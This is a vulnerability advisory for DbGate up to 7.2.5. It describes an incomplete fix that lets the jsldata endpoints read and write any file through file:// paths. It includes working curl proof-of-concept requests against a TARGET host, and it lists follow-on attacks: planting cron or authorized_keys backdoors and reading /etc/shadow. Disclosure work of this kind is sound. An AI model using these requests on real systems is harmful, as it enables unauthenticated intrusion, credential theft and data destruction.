

# Arbitrary File Read/Write via `file://` Protocol in DbGate jsldata Controller

| Field | Value |
|-------|-------|
| **Project** | [dbgate/dbgate](https://github.com/dbgate/dbgate) |
| **Vulnerability Type** | Path Traversal (CWE-22), External Control of File Name or Path (CWE-73) |
| **Severity** | Critical — CVSS 3.1 Base Score: **9.8** |
| **CVSS Vector** | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Affected Versions** | <= 7.2.5 (verified on 7.2.5, latest release as of 2026-08-14) |
| **Authentication** | None (default anonymous deployment) |

---

## Summary

The `jsldata` controller supports the `file://` protocol for referencing local files. While a prior fix (Issue #1502) added rejection of `file://` URLs in the `streamRows()` read path, the protection was **not** applied to the write endpoints (`save-text`, `save-rows`) or several read endpoints (`get-info`, `get-rows`, `get-stats`). An attacker can therefore read and write arbitrary files on the server filesystem by specifying `file:///etc/passwd` or `file:///root/.ssh/authorized_keys` as the `jslid` parameter.

In the default Docker deployment with anonymous authentication, this is exploitable without credentials and leads to unauthenticated remote code execution.

## Details

The `getJslFileName()` function parses `file://` URLs and returns the raw filesystem path without restriction:

```javascript
function getJslFileName(jslid) {
    if (jslid.startsWith('file://')) {
        return jslid.substring(7);  // Returns raw path, e.g., /etc/passwd
    }
    // ... other protocol handling
}
```

While `streamRows()` was patched to reject `file://`, the following endpoints still accept it:

| Endpoint | Operation | Impact |
|----------|-----------|--------|
| `POST /jsldata/save-text` | `fs.writeFile(fileName, text)` | Arbitrary file write |
| `POST /jsldata/save-rows` | `fs.writeFile(fileName, ...)` | Arbitrary file write |
| `POST /jsldata/get-info` | `fs.stat(fileName)` | File existence probing |
| `POST /jsldata/get-rows` | `fs.readFile(fileName)` | Arbitrary file read |
| `POST /jsldata/exists` | `fs.exists(fileName)` | File existence probing |

## PoC

Verified on DbGate 7.2.5 Docker (default anonymous deployment, port 3000):

**Step 1: Obtain anonymous JWT**

```bash
curl -s -X POST http://TARGET:3000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"amoid":"none"}'
```

**Step 2: Read arbitrary file via `jsldata/get-info`**

```bash
curl -s -X POST http://TARGET:3000/jsldata/get-info \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"jslid":"file:///etc/passwd"}'
```
```
null
```

The `null` response (instead of an error) confirms the file exists and was accessed. File content can be read via `get-rows` when the file is in JSONL format.

**Step 3: Write arbitrary file via `jsldata/save-text`**

```bash
curl -s -X POST http://TARGET:3000/jsldata/save-text \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"jslid":"file:///tmp/pwned.txt","text":"HACKED"}'
```
```
true
```

**Step 4: Read back written file via `jsldata/get-rows` (JSONL format)**

```bash
# Write a JSONL file
curl -s -X POST http://TARGET:3000/jsldata/save-text \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"jslid":"file:///tmp/secrets.jsonl","text":"{\"password\":\"s3cr3t\"}"}'
```
```
true
```

```bash
# Read it back
curl -s -X POST http://TARGET:3000/jsldata/get-rows \
  -H "Authorization: Bearer <JWT>" \
  -H "Content-Type: application/json" \
  -d '{"jslid":"file:///tmp/secrets.jsonl","offset":0,"limit":10}'
```
```
[{"password":"s3cr3t"}]
```

Both read and write via `file://` succeed without any path restriction.



---

## Impact

An unauthenticated attacker can read and write any file on the DbGate server filesystem. This enables:

- **Remote Code Execution** — writing to `/etc/cron.d/backdoor` or `/root/.ssh/authorized_keys` for persistent shell access
- **Credential Theft** — reading `/etc/shadow`, database connection credentials, SSH keys
- **Data Destruction** — overwriting critical system files

The root cause is an incomplete fix (Issue #1502) that only blocked `file://` in the `streamRows()` path but left all other jsldata endpoints vulnerable. In the default Docker deployment with anonymous auth, this requires no credentials.
